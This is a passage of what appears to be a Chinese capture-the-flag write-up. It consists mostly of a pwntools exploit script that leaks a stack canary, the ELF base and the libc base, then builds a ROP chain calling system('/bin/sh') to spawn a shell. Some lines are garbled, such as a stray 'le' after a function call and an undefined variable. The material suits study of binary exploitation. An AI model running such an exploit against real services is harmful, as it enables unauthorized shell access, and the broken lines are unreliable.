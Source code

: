 如此我们就可以直接得到所有需要的值getshell 了。

>    另外注意一下，这个main 函数的返回地址，在libcSearcher中使用`__libc_start_main_ret`

最后的payload

```python
def vul(payload1):
    sla('path:', 'flag')
    sla('len:',  '1000')
    sa('note:', payload1)
    ru(payload1)

# leak canary 
payload1 = 'a' * 600 + '\n'
vul(payload1)
s = rl()
canary = u64(b'\x00' + s[:7] )

payload2 = flat(['a' * 600, canary, 0, '\x20'])
sd(payload2)

# leak elf base
payload1 = 'a' * 616
vul(payload1)
s = rl()
ret_addr = u64(s[:-1]+b'\x00\x00')
elf_base = ret_addr - 0xd2e
sd(payload2)

# leak libc base 
payload1 = 'a' * 680 
vul(payload1)
s = rl()
start_addr = elf_base + 0x0970 
payload2 = flat(['a' * 600, canary, 0, start_addr])
sd(payload2)
print(d)
print(len(s))
__libc_start_main_ret = u64(s[:-1]+b'\x00\x00')
print(hex(__libc_start_main_ret))

obj = LibcSearcher('__libc_start_main_ret', __libc_start_main_ret)
libc_base = __libc_start_main_ret - obj.dump('__libc_start_main_ret')

sys_addr = obj.dump('system') + libc_base
sh_addr  = obj.dump('str_bin_sh')le + libc_base

pop_rdi = elf_base + 0xe03
main = elf_base + 0xd20

#  get shell
payload1 = flat(['a'*600, canary, 1, pop_rdi, sh_addr, sys_addr, main])
sla('path:', 'flag')
sla('len:',  '1000')
sa('note:', payload1)
rl()
payload2 = flat(['a'*600, canary, 1, pop_rdi])
sd(payload2)
ia()

```

